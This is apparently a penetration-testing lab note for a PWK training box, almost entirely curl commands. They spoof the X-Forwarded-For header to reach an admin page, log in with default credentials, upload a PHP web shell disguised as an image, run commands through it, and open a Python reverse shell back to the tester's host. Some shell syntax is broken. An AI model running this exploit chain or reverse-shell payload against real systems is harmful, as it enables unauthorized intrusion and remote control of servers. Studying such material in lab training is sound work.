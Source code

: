 
# Exmples with X-Forwarded-For:

This is based on a pwk lab box for a php webshell.

## Get page

```bash
curl http://192.168.81.138/administration/ -H "X-Forwarded-For: 127.0.0.1:80"
```

## Login

```bash
curl http://192.168.81.138/administration/ -H "X-Forwarded-For: 127.0.0.1:80" -d "username=admin&password=admin" | grep "welcome back" 

curl http://192.168.81.138/administration/ -v -H "X-Forwarded-For: 127.0.0.1:80" -d "username=admin&password=admin" -s | grep -q  "welcome back"; then echo "Logged In"; else echo "Login Failed"; fi
```

## Get the login cookie from the last response 

```bash
curl http://192.168.81.138/administration/ -H "X-Forwarded-For: 127.0.0.1:80" -v -d "username=admin&password=admin" -c cookie
```

## Get upload page

```bash
curl http://192.168.81.138/administration/upload/ -H "X-Forwarded-For: 127.0.0.1:80" -v -b cookie 
```

## Post a file. (set mimetype on image from php)

```bash
curl http://192.168.81.138/administration/upload/ -H "X-Forwarded-For: 127.0.0.1:80" -b cookie -F 'document=@shell.php;type=image/jpg'  --proxy 127.0.0.1:8080
```

## Call shell

```
curl http://192.168.81.138/administration/upload/files/1633532386shell.php?cmd=id -H "X-Forwarded-For: 127.0.0.1:80" -b cookie 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## RevShell

Start nc 

```
nc -lnpv 9999
```

```
curl http://192.168.81.138/administration/upload/files/1633532386shell.php?cmd="python3%20-c%20'import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.49.81%22,9999));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22bash%22)'" -H "X-Forwarded-For: 127.0.0.1:80" -b cookie
```
